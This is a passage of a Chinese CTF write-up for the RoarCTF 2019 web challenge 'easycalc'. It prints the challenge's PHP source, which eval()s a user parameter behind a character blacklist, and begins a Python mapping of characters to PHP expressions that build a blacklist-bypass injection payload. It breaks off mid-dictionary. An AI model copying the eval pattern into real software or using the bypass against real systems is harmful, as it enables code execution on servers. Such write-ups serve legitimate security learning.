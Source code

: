 date: 2020-04-20
categories:
- 比赛
tags:
- wp
- ctf
title: roarctf2019
---
# roarctf2019



## web

### easycalc



#### 源码

```php

<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```





#### 解法一 肝就完事

强行绕过限制

关键:`((10000000000000).(0)){3}`=>E

python脚本

```python
arr={
    "0":'''((0).(0)){0}''',
    "1":'''((1).(0)){0}''',
    "2":'''((2).(0)){0}''',
    "3":'''((3).(0)){0}''',
    "4":'''((4).(0)){0}''',
    "5":'''((5).(0)){0}''',
    "6":'''((6).(0)){0}''',
    "7":'''((7).(0)){0}''',
    "8":'''((8).(0)){0}''',
    "9":'''((9).(0)){0}''',
    "-": "((-1).(0)){0}",
    "." :"((1.1).(0)){1}",
    "E": "((10000000000000000000).(1)){3}",
    "p":"((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))",
```